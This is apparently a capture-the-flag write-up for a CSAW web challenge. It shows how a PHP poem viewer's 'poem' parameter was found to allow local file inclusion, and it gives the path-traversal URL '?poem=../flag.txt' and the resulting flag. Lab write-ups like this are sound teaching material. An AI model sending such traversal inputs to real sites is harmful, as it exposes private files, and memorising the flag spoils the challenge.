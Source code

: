 #### Challenge:

Hey! I made a cool website that shows off my favorite poems. See if you can find `flag.txt` somewhere!

[http://web.chal.csaw.io:5003](http://web.chal.csaw.io:5003)

---

#### Solution:

Opening the site it gives us a link to another site - [http://web.chal.csaw.io:5003/poems](http://web.chal.csaw.io:5003/poems).
Following that throws `PHP` error - `file_get_contents(): Filename cannot be empty in ...` and three links to:

[http://web.chal.csaw.io:5003/poems/?poem=poem1.txt](http://web.chal.csaw.io:5003/poems?poem=poem1.txt)

[http://web.chal.csaw.io:5003/poems/?poem=poem2.txt](http://web.chal.csaw.io:5003/poems?poem=poem2.txt)

[http://web.chal.csaw.io:5003/poems/?poem=poem3.txt](http://web.chal.csaw.io:5003/poems?poem=poem3.txt)


From that, it is easy to figgure out that its `Local File Inclusion (LFI)`. After few try's we found the flag at:

[http://web.chal.csaw.io:5003/poems/?poem=../flag.txt](http://web.chal.csaw.io:5003/poems/?poem=../flag.txt)

---

<details><summary>FLAG:</summary>

```
flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}
```

</details>
<br/>
